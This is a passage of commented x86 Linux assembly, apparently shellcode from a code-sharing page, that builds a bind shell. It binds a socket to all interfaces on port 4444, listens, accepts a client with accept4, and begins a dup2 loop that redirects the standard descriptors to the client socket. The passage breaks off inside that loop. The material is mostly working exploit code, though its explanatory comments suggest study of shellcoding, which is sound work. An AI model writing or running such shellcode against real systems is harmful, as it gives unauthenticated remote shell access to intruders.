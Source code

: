 
	; Binding the socket to 0.0.0.0 address at port 4444
	;
	; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
	;
	;
	; bind() is defined as #define __NR_bind 361 on /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor eax, eax
	mov ax, 0x169 		; 361 in decimal
	xor ecx, ecx
	push ecx 		      ; pushing 32 bit INADDR_ANY
	push word 0x5c11	; pushing PORT 4444 in network byte order
	push word 0x2		  ; pushing AF_INET as sin_family

	mov ecx, esp		; now ECX points to the my_addr data structure
	mov dl, 0x10		; sizeof(my_addr) = 16 bytes
	int 0x80		; bind(sfd, (struct sockaddr *) &my_addr, sizeof(my_addr));

	; Listening on opened socket bound to port 4444
	;
	; int listen(int sockfd, int backlog);
	;
	; listen() is defined as #define __NR_listen 363 in /usr/include/i386-linux-gnu/asm/unistd_32.h
	xor ecx, ecx
	xor eax, eax
	mov ax, 0x16b		; 363 in decimal
	int 0x80		; listen(sfd, 0);

	; Accepting incoming connection on listening socket
	;
	; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
	;
	; accept() is not defined as syscall in /usr/include/i386-linux-gnu/asm/unistd_32.h.
	; Instead accept4() is defined as #define __NR_accept4 364.
	;
	; From the man page, accept4() has the followint prototype:
	; int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
	;
	; The last integer, as from the man page, if set to 0 makes the
	; accept4() call to behave as the same as the accept()

	xor eax, eax
	mov ax, 0x16c		; 364 in decimal

	push ecx		; ECX is 0, pushing on the stack

	mov esi, ecx
	mov ecx, esp		; ECX now points to a zero bytes region from the stack.
	mov edx, esp

	int 0x80		; cfd = accept4(sfd, NULL, NULL, 0);

	mov ebx, eax		; Saving socket descript resulting from accept4 into EBX

	; Duplicating descriptor 0, 1, 2 to the socket opened by client
	;
	; int dup2(int oldfd, int newfd);
	;
	; dup2 is defined as #define __NR_dup2 63 in /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor ecx, ecx
	mov cl,  2
	xor eax, eax

dup2:
	mov al, 0x3F	; 63 in decimal
	int 0x80	; duplicating file descriptors in backwards order; from 2 to 0
	dec ecx